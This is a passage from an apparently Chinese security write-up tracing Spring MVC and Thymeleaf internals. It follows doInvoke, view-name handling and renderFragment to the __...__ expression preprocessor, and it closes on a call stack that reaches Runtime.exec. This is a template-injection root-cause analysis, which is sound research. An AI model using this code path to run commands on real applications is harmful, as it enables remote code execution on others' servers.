[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173358-1da149fc-7a2c-1.png)  
进入doInvoke方法

```plain
@Nullable
protected Object doInvoke(Object... args) throws Exception {
    ReflectionUtils.makeAccessible(this.getBridgedMethod());

    try {
        // 这里
        return this.getBridgedMethod().invoke(this.getBean(), args);
    } catch (IllegalArgumentException var4) {
        this.assertTargetBean(this.getBridgedMethod(), this.getBean(), args);
        String text = var4.getMessage() != null ? var4.getMessage() : "Illegal argument";
        throw new IllegalStateException(this.formatInvokeError(text, args), var4);
    } catch (InvocationTargetException var5) {
        Throwable targetException = var5.getTargetException();
        if (targetException instanceof RuntimeException) {
            throw (RuntimeException)targetException;
        } else if (targetException instanceof Error) {
            throw (Error)targetException;
        } else if (targetException instanceof Exception) {
            throw (Exception)targetException;
        } else {
            throw new IllegalStateException(this.formatInvokeError("Invocation failure", args), targetException);
        }
    }
}
```

采用反射的方式调用目标控制方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173418-293e6cea-7a2c-1.png)  
最终来到了自己编写的控制方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173434-330ffdc4-7a2c-1.png)  
回到invokeAndHandle方法，执行

```plain
this.returnValueHandlers.handleReturnValue(
    returnValue, getReturnValueType(returnValue), mavContainer, webRequest);
```

进入HandlerMethodReturnValueHandlerComposite.class的handleReturnValue方法

```plain
public void handleReturnValue(@Nullable Object returnValue, MethodParameter returnType, ModelAndViewContainer mavContainer, NativeWebRequest webRequest) throws Exception {
    // 选择适当的返回值处理器
    HandlerMethodReturnValueHandler handler = this.selectHandler(returnValue, returnType);
    if (handler == null) {
        throw new IllegalArgumentException("Unknown return value type: " + returnType.getParameterType().getName());
    } else {
        // 调用所选处理器的 handleReturnValue 方法处理返回值
        handler.handleReturnValue(returnValue, returnType, mavContainer, webRequest);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173459-41b4c53a-7a2c-1.png)  
这里的handler为ViewNameMethodReturnValueHandler对象，进入handleReturnValue方法

```plain
// 根据返回值的类型进行处理
@Override
public void handleReturnValue(@Nullable Object returnValue, MethodParameter returnType,
        ModelAndViewContainer mavContainer, NativeWebRequest webRequest) throws Exception {
    // 如果返回值是 CharSequence 类型（例如 String），则将其作为视图名称设置到 ModelAndViewContainer 中，并根据视图名称判断是否为重定向视图
    if (returnValue instanceof CharSequence) {
        String viewName = returnValue.toString();
        mavContainer.setViewName(viewName);
        // 如果视图名称以 redirect: 或 forward: 开头，则将重定向标志设置到 ModelAndViewContainer 中
        if (isRedirectViewName(viewName)) {
            mavContainer.setRedirectModelScenario(true);
        }
    }
    else if (returnValue != null) {
        // should not happen
        throw new UnsupportedOperationException("Unexpected return type: " +
                returnType.getParameterType().getName() + " in method: " + returnType.getMethod());
    }
}
```

isRedirectViewName方法

```plain
protected boolean isRedirectViewName(String viewName) {
    return (PatternMatchUtils.simpleMatch(this.redirectPatterns, viewName) || viewName.startsWith("redirect:"));
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173515-4afd5a30-7a2c-1.png)  
回到invokeHandlerMethod方法，执行下面代码

```plain
return getModelAndView(mavContainer, modelFactory, webRequest);
```

进入RequestMappingHandlerAdapter.java的getModelAndView方法

```plain
// 获取处理方法返回的 ModelAndView 对象
@Nullable
private ModelAndView getModelAndView(ModelAndViewContainer mavContainer,
        ModelFactory modelFactory, NativeWebRequest webRequest) throws Exception {
    // 更新模型数据
    modelFactory.updateModel(webRequest, mavContainer);
    if (mavContainer.isRequestHandled()) {
        return null;
    }
    // 获取模型
    ModelMap model = mavContainer.getModel();
    // 创建 ModelAndView 对象，设置视图名称、模型数据和状态码
    ModelAndView mav = new ModelAndView(mavContainer.getViewName(), model, mavContainer.getStatus());
    if (!mavContainer.isViewReference()) {
        mav.setView((View) mavContainer.getView());
    }
    // // 如果模型数据是 RedirectAttributes 类型，则将 Flash 属性添加到输出 FlashMap 中
    if (model instanceof RedirectAttributes) {
        Map<String, ?> flashAttributes = ((RedirectAttributes) model).getFlashAttributes();
        HttpServletRequest request = webRequest.getNativeRequest(HttpServletRequest.class);
        if (request != null) {
            RequestContextUtils.getOutputFlashMap(request).putAll(flashAttributes);
        }
    }
    return mav;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173532-559b3886-7a2c-1.png)

再次回到doDispatch方法，执行下面代码

```plain
mappedHandler.applyPostHandle(processedRequest, response, mv);
```

进入applyPostHandle

```plain
// 用于在请求处理完成后应用拦截器的 postHandle 方法。这样可以在请求处理的后续阶段对请求进行进一步处理，例如修改响应结果或记录日志等
void applyPostHandle(HttpServletRequest request, HttpServletResponse response, @Nullable ModelAndView mv)
        throws Exception {

    HandlerInterceptor[] interceptors = getInterceptors();
    if (!ObjectUtils.isEmpty(interceptors)) {
        for (int i = interceptors.length - 1; i >= 0; i--) {
            HandlerInterceptor interceptor = interceptors[i];
            interceptor.postHandle(request, response, this.handler, mv);
        }
    }
}
```

#### 模板渲染

回到doDispatch方法，执行下面代码，进行模板渲染

```plain
processDispatchResult(processedRequest, response, mappedHandler, mv, dispatchException);
```

进入processDispatchResult方法

```plain
// 用于处理请求的分发结果，包括处理方法的执行结果、异常情况以及视图渲染等操作
private void processDispatchResult(HttpServletRequest request, HttpServletResponse response,
        @Nullable HandlerExecutionChain mappedHandler, @Nullable ModelAndView mv,
        @Nullable Exception exception) throws Exception {

    boolean errorView = false;
    // 根据异常类型进行处理
    if (exception != null) {
        if (exception instanceof ModelAndViewDefiningException) {
            logger.debug("ModelAndViewDefiningException encountered", exception);
            mv = ((ModelAndViewDefiningException) exception).getModelAndView();
        }
        else {
            Object handler = (mappedHandler != null ? mappedHandler.getHandler() : null);
            mv = processHandlerException(request, response, handler, exception);
            errorView = (mv != null);
        }
    }

    // Did the handler return a view to render?
    if (mv != null && !mv.wasCleared()) {
        // 处理视图  渲染
        render(mv, request, response);
        if (errorView) {
            WebUtils.clearErrorRequestAttributes(request);
        }
    }
    else {
        if (logger.isTraceEnabled()) {
            logger.trace("No view rendering, null ModelAndView returned.");
        }
    }

    if (WebAsyncUtils.getAsyncManager(request).isConcurrentHandlingStarted()) {
        // Concurrent handling started during a forward
        return;
    }

    if (mappedHandler != null) {
        // Exception (if any) is already handled..
        mappedHandler.triggerAfterCompletion(request, response, null);
    }
}
```

进入render方法

```plain
protected void render(ModelAndView mv, HttpServletRequest request, HttpServletResponse response) throws Exception {
    // 确定请求的区域设置，并将其应用于响应
    // Determine locale for request and apply it to the response.
    Locale locale =
            (this.localeResolver != null ? this.localeResolver.resolveLocale(request) : request.getLocale());
    response.setLocale(locale);
    // 获取要渲染的视图对象 view
    View view;
    String viewName = mv.getViewName();
    if (viewName != null) {
        // 解析视图名称并获取相应的视图对象
        // We need to resolve the view name.
        view = resolveViewName(viewName, mv.getModelInternal(), locale, request);
        if (view == null) {
            throw new ServletException("Could not resolve view with name '" + mv.getViewName() +
                    "' in servlet with name '" + getServletName() + "'");
        }
    }
    else {
        // No need to lookup: the ModelAndView object contains the actual View object.
        view = mv.getView();
        if (view == null) {
            throw new ServletException("ModelAndView [" + mv + "] neither contains a view name nor a " +
                    "View object in servlet with name '" + getServletName() + "'");
        }
    }

    // Delegate to the View object for rendering.
    if (logger.isTraceEnabled()) {
        logger.trace("Rendering view [" + view + "] ");
    }
    try {
        if (mv.getStatus() != null) {
            // 如果 ModelAndView 中定义了状态码，则将其设置到响应中
            response.setStatus(mv.getStatus().value());
        }
        // 调用视图对象的 render 方法，将模型数据、请求对象和响应对象传递给视图对象进行渲染
        // 这里
        view.render(mv.getModelInternal(), request, response);
    }
    catch (Exception ex) {
        if (logger.isDebugEnabled()) {
            logger.debug("Error rendering view [" + view + "]", ex);
        }
        throw ex;
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173555-62d6ca7e-7a2c-1.png)  
进入ThymeleafView对象的render方法

```plain
public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {
    this.renderFragment(this.markupSelectors, model, request, response);
}
```

进入renderFragment方法

```plain
protected void renderFragment(Set<String> markupSelectorsToRender, Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {
    // 获取 ServletContext、视图模板名称（viewTemplateName）和视图模板引擎（viewTemplateEngine）
    ServletContext servletContext = this.getServletContext();
    String viewTemplateName = this.getTemplateName();
    ISpringTemplateEngine viewTemplateEngine = this.getTemplateEngine();
    if (viewTemplateName == null) {
        throw new IllegalArgumentException("Property 'templateName' is required");
    } else if (this.getLocale() == null) {
        throw new IllegalArgumentException("Property 'locale' is required");
    } else if (viewTemplateEngine == null) {
        throw new IllegalArgumentException("Property 'templateEngine' is required");
    } else {
        // 创建一个合并模型（mergedModel），它是一个包含模板静态变量、路径变量和传入的模型数据的 HashMap。合并模型用于在模板渲染过程中访问和使用数据
        Map<String, Object> mergedModel = new HashMap(30);
        Map<String, Object> templateStaticVariables = this.getStaticVariables();
        if (templateStaticVariables != null) {
            mergedModel.putAll(templateStaticVariables);
        }

        if (pathVariablesSelector != null) {
            Map<String, Object> pathVars = (Map)request.getAttribute(pathVariablesSelector);
            if (pathVars != null) {
                mergedModel.putAll(pathVars);
            }
        }

        if (model != null) {
            mergedModel.putAll(model);
        }
        // 建一个 RequestContext 对象和一个 SpringWebMvcThymeleafRequestContext 对象，并将其添加到合并模型中，
        // 以便在模板中可以使用 Spring MVC 和 Thymeleaf 相关的上下文信息和功能
        ApplicationContext applicationContext = this.getApplicationContext();
        RequestContext requestContext = new RequestContext(request, response, this.getServletContext(), mergedModel);
        SpringWebMvcThymeleafRequestContext thymeleafRequestContext = new SpringWebMvcThymeleafRequestContext(requestContext, request);
        addRequestContextAsVariable(mergedModel, "springRequestContext", requestContext);
        addRequestContextAsVariable(mergedModel, "springMacroRequestContext", requestContext);
        mergedModel.put("thymeleafRequestContext", thymeleafRequestContext);

        // 创建一个 ThymeleafEvaluationContext 对象，并将其添加到合并模型中，以便在模板中可以使用 Thymeleaf 的表达式求值上下文
        ConversionService conversionService = (ConversionService)request.getAttribute(ConversionService.class.getName());
        ThymeleafEvaluationContext evaluationContext = new ThymeleafEvaluationContext(applicationContext, conversionService);
        mergedModel.put("thymeleaf::EvaluationContext", evaluationContext);
        IEngineConfiguration configuration = viewTemplateEngine.getConfiguration();
        WebExpressionContext context = new WebExpressionContext(configuration, request, response, servletContext, this.getLocale(), mergedModel);

        // 根据视图模板名称解析模板名称和标记选择器
        String templateName;
        Set markupSelectors;
        // 如果视图模板名称不包含 "::" 分隔符，则将整个视图模板名称作为模板名称，标记选择器设置为null
        if (!viewTemplateName.contains("::")) {
            templateName = viewTemplateName;
            markupSelectors = null;
        } else {
            // 否则使用 Thymeleaf 解析器解析视图模板名称，获取模板名称和标记选择器
            IStandardExpressionParser parser = StandardExpressions.getExpressionParser(configuration);

            FragmentExpression fragmentExpression;
            try {
                fragmentExpression = (FragmentExpression)parser.parseExpression(context, "~{" + viewTemplateName + "}");
            } catch (TemplateProcessingException var25) {
                throw new IllegalArgumentException("Invalid template name specification: '" + viewTemplateName + "'");
            }

            FragmentExpression.ExecutedFragmentExpression fragment = FragmentExpression.createExecutedFragmentExpression(context, fragmentExpression);
            templateName = FragmentExpression.resolveTemplateName(fragment);
            markupSelectors = FragmentExpression.resolveFragments(fragment);
            Map<String, Object> nameFragmentParameters = fragment.getFragmentParameters();
            if (nameFragmentParameters != null) {
                if (fragment.hasSyntheticParameters()) {
                    throw new IllegalArgumentException("Parameters in a view specification must be named (non-synthetic): '" + viewTemplateName + "'");
                }

                context.setVariables(nameFragmentParameters);
            }
        }

        String templateContentType = this.getContentType();
        Locale templateLocale = this.getLocale();
        String templateCharacterEncoding = this.getCharacterEncoding();
        Set processMarkupSelectors;
        if (markupSelectors != null && markupSelectors.size() > 0) {
            if (markupSelectorsToRender != null && markupSelectorsToRender.size() > 0) {
                throw new IllegalArgumentException("A markup selector has been specified (" + Arrays.asList(markupSelectors) + ") for a view that was already being executed as a fragment (" + Arrays.asList(markupSelectorsToRender) + "). Only one fragment selection is allowed.");
            }

            processMarkupSelectors = markupSelectors;
        } else if (markupSelectorsToRender != null && markupSelectorsToRender.size() > 0) {
            processMarkupSelectors = markupSelectorsToRender;
        } else {
            processMarkupSelectors = null;
        }
        // 设置响应的区域设置
        response.setLocale(templateLocale);
        // 根据配置和模板设置响应的内容类型（contentType）和字符编码
        if (!this.getForceContentType()) {
            String computedContentType = SpringContentTypeUtils.computeViewContentType(request, templateContentType != null ? templateContentType : "text/html;charset=ISO-8859-1", templateCharacterEncoding != null ? Charset.forName(templateCharacterEncoding) : null);
            response.setContentType(computedContentType);
        } else {
            if (templateContentType != null) {
                response.setContentType(templateContentType);
            } else {
                response.setContentType("text/html;charset=ISO-8859-1");
            }

            if (templateCharacterEncoding != null) {
                response.setCharacterEncoding(templateCharacterEncoding);
            }
        }

        boolean producePartialOutputWhileProcessing = this.getProducePartialOutputWhileProcessing();
        // 根据配置决定是否在处理过程中生成部分输出。如果生成部分输出，则使用响应的 Writer 对象，否则创建一个 FastStringWriter 对象作为模板的输出
        Writer templateWriter = producePartialOutputWhileProcessing ? response.getWriter() : new FastStringWriter(1024);

        // 使用视图模板引擎的 process 方法渲染模板。传入模板名称、标记选择器、表达式上下文和输出 Writer
        // 这里
        viewTemplateEngine.process(templateName, processMarkupSelectors, context, (Writer)templateWriter);

        // 如果生成部分输出，则将部分输出写入响应的 Writer 中；否则，将模板渲染结果作为字符串写入响应的 Writer 中。
        if (!producePartialOutputWhileProcessing) {
            response.getWriter().write(templateWriter.toString());
            response.getWriter().flush();
        }

    }
}
```

由于传入的模板名包含`::`，所以会使用Thymeleaf 解析器解析视图模板名称  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173617-70294c42-7a2c-1.png)  
进入StandardExpressionParser的parseExpression方法

```plain
public Expression parseExpression(
        final IExpressionContext context,
        final String input) {

    Validate.notNull(context, "Context cannot be null");
    Validate.notNull(input, "Input cannot be null");
    // 这里
    return (Expression) parseExpression(context, input, true);
}
```

进入parseExpression  
这个用于解析表达式的方法。它通过对输入字符串进行预处理，并利用 Thymeleaf 的 Expression 类来解析表达式。解析后的表达式对象会被缓存，以提高性能并避免重复解析相同的表达式

```plain
static IStandardExpression parseExpression(
        final IExpressionContext context,
        final String input, final boolean preprocess) {
    // 从上下文中获取引擎配置
    final IEngineConfiguration configuration = context.getConfiguration();
    // 根据 preprocess 参数的值，决定是否对输入字符串进行预处理
    // 这里
    final String preprocessedInput =
        (preprocess? StandardExpressionPreprocessor.preprocess(context, input) : input);
    // 从表达式缓存中尝试获取已缓存的表达式对象
    final IStandardExpression cachedExpression =
            ExpressionCache.getExpressionFromCache(configuration, preprocessedInput);
    if (cachedExpression != null) {
        return cachedExpression;
    }
    // 如果没有找到已缓存的表达式对象，则调用 Expression 类的 parse 方法解析预处理后的字符串，得到表达式对象
    final Expression expression = Expression.parse(preprocessedInput.trim());

    if (expression == null) {
        throw new TemplateProcessingException("Could not parse as expression: \"" + input + "\"");
    }
    // 将解析得到的表达式对象放入表达式缓存中
    ExpressionCache.putExpressionIntoCache(configuration, preprocessedInput, expression);

    return expression;

}
```

进入StandardExpressionPreprocessor.preprocess

```plain
private static final char PREPROCESS_DELIMITER = '_';
private static final String PREPROCESS_EVAL = "\\_\\_(.*?)\\_\\_";
private static final Pattern PREPROCESS_EVAL_PATTERN = Pattern.compile(PREPROCESS_EVAL, Pattern.DOTALL);

static String preprocess(
        final IExpressionContext context,
        final String input) {
    // 检查输入字符串中是否包含预处理分隔符_,不包含则直接返回
    if (input.indexOf(PREPROCESS_DELIMITER) == -1) {
        // Fail quick
        return input;
    }
    // 检查其是否为 StandardExpressionParser 的实例。因为预处理器依赖于特定的解析器实现，所以只有当解析器为 StandardExpressionParser 时，才能进行预处理
    final IStandardExpressionParser expressionParser = StandardExpressions.getExpressionParser(context.getConfiguration());
    if (!(expressionParser instanceof StandardExpressionParser)) {
        // Preprocess will be only available for the StandardExpressionParser, because the preprocessor
        // depends on this specific implementation of the parser.
        return input;
    }
    // 使用预处理正则表达式模式（PREPROCESS_EVAL_PATTERN）对输入字符串进行匹配
    final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);
    // 如果找到匹配的预处理标记，则创建一个 StringBuilder 对象（strBuilder）用于构建预处理后的字符串
    if (matcher.find()) {

        final StringBuilder strBuilder = new StringBuilder(input.length() + 24);
        int curr = 0;
        // 使用循环遍历所有匹配的预处理标记
        do {
            // 提取出前一个标记之后的文本（previousText）和表达式文本（expressionText），并将前一个标记之后的文本追加到 strBuilder 中
            final String previousText = 
                    checkPreprocessingMarkUnescaping(input.substring(curr,matcher.start(0)));
            final String expressionText = 
                    checkPreprocessingMarkUnescaping(matcher.group(1));

            strBuilder.append(previousText);
            // parseExpression 方法解析表达式文本，得到表达式对象（expression）
            final IStandardExpression expression =
                    StandardExpressionParser.parseExpression(context, expressionText, false);
            if (expression == null) {
                return null;
            }
            // 调用表达式对象的 execute 方法执行表达式，并将执行结果追加到 strBuilder 中
            final Object result = expression.execute(context, StandardExpressionExecutionContext.RESTRICTED);

            strBuilder.append(result);

            curr = matcher.end(0);

        } while (matcher.find());

        final String remaining = checkPreprocessingMarkUnescaping(input.substring(curr));

        strBuilder.append(remaining);

        return strBuilder.toString().trim();

    }

    return checkPreprocessingMarkUnescaping(input);

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173645-80a134b8-7a2c-1.png)  
进入Expression类的execute方法

```plain
public Object execute(
        final IExpressionContext context,
        final StandardExpressionExecutionContext expContext) {

    Validate.notNull(context, "Context cannot be null");

    final IStandardVariableExpressionEvaluator variableExpressionEvaluator =
            StandardExpressions.getVariableExpressionEvaluator(context.getConfiguration());
    // 这里
    final Object result = execute(context, this, variableExpressionEvaluator, expContext);
    return LiteralValue.unwrap(result);

}
```

逐步会到SimpleExpression类的executeSimple方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173703-8b6287ee-7a2c-1.png)  
之后的链会一直到达命名执行函数  
**函数调用栈**：

```plain
exec:443, Runtime (java.lang)
exec:347, Runtime (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
execute:129, ReflectiveMethodExecutor (org.springframework.expression.spel.support)
getValueInternal:139, MethodReference (org.springframework.expression.spel.ast)
getValueInternal:95, MethodReference (org.springframework.expression.spel.ast)
getValueRef:61, CompoundExpression (org.springframework.expression.spel.ast)
getValueInternal:91, CompoundExpression (org.springframework.expression.spel.ast)
